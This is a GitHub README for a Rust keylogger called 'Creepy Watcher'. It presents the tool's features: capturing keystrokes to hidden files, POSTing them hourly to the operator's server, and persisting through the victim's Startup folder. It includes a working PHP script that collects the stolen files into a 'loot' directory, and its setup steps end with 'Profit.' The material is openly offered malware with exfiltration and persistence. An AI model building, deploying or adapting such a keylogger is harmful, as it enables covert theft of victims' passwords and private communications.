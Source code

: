 # Creepy Watcher - Keylogger implementation in Rust

![image](https://github.com/djackreuter/creepy_watcher/assets/27731554/ae12d739-c4c5-4086-8f92-40e92e706989)

## Features
* Records keystrokes and saves to timestamped file in `C:\Windows\Tasks\` directory.
* Every hour it will POST the file to your webserver, delete the old file, and create a new one.
* The keylogger will place itself in the users Startup folder so that it will persist through restarts.
* Also includes a `killdate` to ensure the program will no longer run after a set date.


An example `index.php` file is provided below to host on your webserver that will save the incoming file to a loot directory.
```
<?php

        if (!empty($_FILES['file']['name'])) {
                $uploaddir = "/var/www/loot/";
                $uploadedfile = $uploaddir . basename($_FILES['file']['name']);

                move_uploaded_file($_FILES['file']['tmp_name'], $uploadedfile);
        }

?>
```

## Usage Instructions:
0. Ensure you have a webserver capable of saving the incoming POST request with the file.
1. Update the `url` parameter in the `send_file` function to your webserver.
2. Set the `killdate` variable to the date which you no longer want the program to run.
3. Compile with `cargo build -r`.
4. Profit.


## Disclaimer
THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS “AS IS” AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.
